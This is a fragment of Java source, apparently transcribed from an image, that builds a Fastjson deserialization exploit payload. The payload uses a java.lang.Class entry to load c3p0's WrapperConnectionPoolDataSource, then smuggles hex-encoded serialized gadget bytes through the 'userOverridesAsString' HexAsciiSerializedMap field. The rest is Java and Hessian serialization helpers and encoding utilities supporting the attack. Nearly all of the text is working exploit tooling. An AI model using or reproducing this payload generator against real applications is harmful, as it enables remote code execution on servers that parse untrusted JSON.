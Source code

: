 ```
                String hex = "{\n" +
                        "    \"rand1\": {\n" +
                        "        \"@type\": \"java.lang.Class\",\n" +
                        "        \"val\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"\n" +
                        "    },\n" +
                        "    \"rand2\": {\n" +
                        "        \"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n" +
                        "        \"userOverridesAsString\": \"HexAsciiSerializedMap:" + bytesToHexString(bytes, bytes.length) + ";\",\n" +
                        "    }\n" +
                        "}";
                System.out.println(hex);
                if (mode.equals("debug"))
                    JSON.parseObject(hex);
                break;
        }
    }

    public static void deserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }
    public static void hessiandeser(byte[] bytes) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
    public static byte[] hessianser(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
        hessianOutput.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }

    public static byte[] base64Decode(String string) {
        Base64.Decoder decoder = Base64.getDecoder();
        return decoder.decode(string);
    }
    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }
    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);
        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
```